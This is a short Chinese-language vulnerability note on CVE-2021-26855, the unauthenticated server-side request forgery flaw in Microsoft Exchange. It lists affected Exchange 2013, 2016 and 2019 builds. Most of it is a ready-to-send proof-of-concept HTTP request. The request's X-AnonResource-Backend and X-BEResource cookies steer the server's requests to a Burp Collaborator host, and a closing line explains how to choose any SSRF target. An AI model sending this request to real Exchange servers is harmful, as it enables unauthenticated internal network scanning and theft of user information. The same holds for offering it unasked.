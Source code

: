 ```yaml
---
title: "CVE-2021-26855"
author: ["4shen0ne"]
lastmod: 2024-12-14T01:40:09+08:00
tags: ["exchange"]
draft: false
---
```


Exchange SSRF 漏洞，攻击者可直接构造恶意请求，以 Exchange server 的身份发起任意
HTTP 请求，扫描内网，并且可获取 Exchange 用户信息。该漏洞利用无需身份认证。


## 影响版本 {#影响版本}

Exchange 2013 Versions &lt; 15.00.1497.012,

Exchange 2016 CU18 &lt; 15.01.2106.013,

Exchange 2016 CU19 &lt; 15.01.2176.009,

Exchange 2019 CU7 &lt; 15.02.0721.013,

Exchange 2019 CU8 &lt; 15.02.0792.010。


## poc {#poc}

```nil
GET /owa/auth/x.js HTTP/1.1
Host: IP
Connection: close
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="88"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://IP/owa/auth/logon.aspx?url=https%3a%2f%2PIp%2fowa%2f&reason=0
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: X-AnonResource=true; X-AnonResource-Backend=oyq5v1vyqo5komisdc1jfltvzm5dt2.burpcollaborator.net/ecp/default.flt?~3; X-BEResource=localhost/owa/auth/logon.aspx?~3;
```

x.js 可以随意构造，在 cookie 的 X-AnonResource-Backend 参数中设置 ssrf 目标，比
如上面的 oyq5v1vyqo5komisdc1jfltvzm5dt2.burpcollaborator.net
